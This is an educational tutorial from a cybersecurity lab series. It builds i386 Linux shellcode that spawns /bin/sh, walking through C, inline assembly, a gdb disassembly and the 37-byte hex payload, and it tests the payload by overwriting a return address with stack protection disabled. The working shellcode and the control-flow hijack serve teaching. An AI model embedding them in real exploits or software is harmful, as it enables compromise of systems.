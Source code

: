 \newpage

## Building shellcode

The term *shellcode* is typically used to refer to that piece of code which allows to spawn a command line in the targeting system. This can be done from any process in execution provided it invokes the right call. This tutorial will focus on understanding a *shellcode* for i386 systems and how it's typically used.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity2:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity2:latest
```

----

The code to spawn a shell in C looks like (`shellcode.c`):

```C
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcode
#
```

Reading through literature [2], one can summarize that this C program consist of the following steps in assembly:

- a) Have the null terminated string "/bin/sh" somewhere in memory.
- b) Have the address of the string "/bin/sh" somewhere in memory followed by a null long word.
- c) Copy 0xb into the EAX register.
- d) Copy the address of the address of the string "/bin/sh" into the EBX register.
- e) Copy the address of the string "/bin/sh" into the ECX register.
- f) Copy the address of the null long word into the EDX register.
- g) Execute the int $0x80 instruction.
- h) Copy 0x1 into the EAX register.
- i) Copy 0x0 into the EBX register.
- j) Execute the int $0x80 instruction.

From [3], we can put together the following complete program assembled together in C (`shellcodeasm.c`):
```C
void main() {
__asm__(" \
          xor     %eax,       %eax; \
          xor     %edx,       %edx; \
          movb    $11,        %al; \
          push    %edx; \
          push    $0x68732f6e; \
          push    $0x69622f2f; \
          mov     %esp,       %ebx; \
          push    %edx; \
          push    %ebx; \
          mov     %esp,       %ecx; \
          int     $0x80; \
          movl   $0x1, %eax; \
          movl   $0x0, %ebx;  \
          int    $0x80;");
}
```

executing, it clearly gives us a shell:
```bash
root@1406e08c64b9:~# ./shellcodeasm
#
```
and disassembling it, we obtain the same (plus the corresponding instructions for the stack management at the beginning and end):
```
>>> disassemble main
Dump of assembler code for function main:
   0x080483ed <+0>:	push   %ebp
   0x080483ee <+1>:	mov    %esp,%ebp
   0x080483f0 <+3>:	xor    %eax,%eax
   0x080483f2 <+5>:	xor    %edx,%edx
   0x080483f4 <+7>:	mov    $0xb,%al
   0x080483f6 <+9>:	push   %edx
   0x080483f7 <+10>:	push   $0x68732f6e
   0x080483fc <+15>:	push   $0x69622f2f
   0x08048401 <+20>:	mov    %esp,%ebx
   0x08048403 <+22>:	push   %edx
   0x08048404 <+23>:	push   %ebx
   0x08048405 <+24>:	mov    %esp,%ecx
   0x08048407 <+26>:	int    $0x80
   0x08048409 <+28>:	mov    $0x1,%eax
   0x0804840e <+33>:	mov    $0x0,%ebx
   0x08048413 <+38>:	int    $0x80
   0x08048415 <+40>:	pop    %ebp
   0x08048416 <+41>:	ret    
End of assembler dump.
```
Now, a more compact version of the shellcode can be obtained by fetching the hexadecimal representation of all those assembly instructions above which can be obtained by directly looking at the memory:
```
>>> x/37bx 0x080483f0
0x80483f0 <main+3>:	0x31	0xc0	0x31	0xd2	0xb0	0x0b	0x52	0x68
0x80483f8 <main+11>:	0x6e	0x2f	0x73	0x68	0x68	0x2f	0x2f	0x62
0x8048400 <main+19>:	0x69	0x89	0xe3	0x52	0x53	0x89	0xe1	0xcd
0x8048408 <main+27>:	0x80	0xb8	0x01	0x00	0x00	0x00	0xbb	0x00
0x8048410 <main+35>:	0x00	0x00	0x00	0xcd	0x80
```
a total of 37 bytes of *shellcode*. Let's try it out:
```C
char shellcode[] =
      "\x31\xc0\x31\xd2\xb0\x0b\x52\x68"
      "\x6e\x2f\x73\x68\x68\x2f\x2f\x62"
      "\x69\x89\xe3\x52\x53\x89\xe1\xcd"
      "\x80\xb8\x01\x00\x00\x00\xbb\x00"
      "\x00\x00\x00\xcd\x80";

void main() {
   int *ret;    // a variable that will hold the return address in the stack

   ret = (int *)&ret + 2; // obtain the return address from the stack
   (*ret) = (int)shellcode; // point the return address to the shellcode
}
```
Code is self-explanatory, a local variable `ret` gets pointed to the return address which later gets modified to point at the global variable `shellcode` which contains the previously derived shell code. To make this work in a simple manner, we will disable gcc's stack protection mechanism producing:
```bash
root@51b56809b3b6:~# ./test_shellcode
#
```

### Resources

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] A. One (1996), Smashing the Stack for Fun and Profit. Phrack, 7. Retrieved from http://insecure.org/stf/smashstack.html.
- [3] P. Clement (2011), *execve("/bin//sh", ["/bin//sh"], NULL) - Linux elf32-i386*. Retrieved from https://blog.thireus.com/execvebinsh-binsh-null/
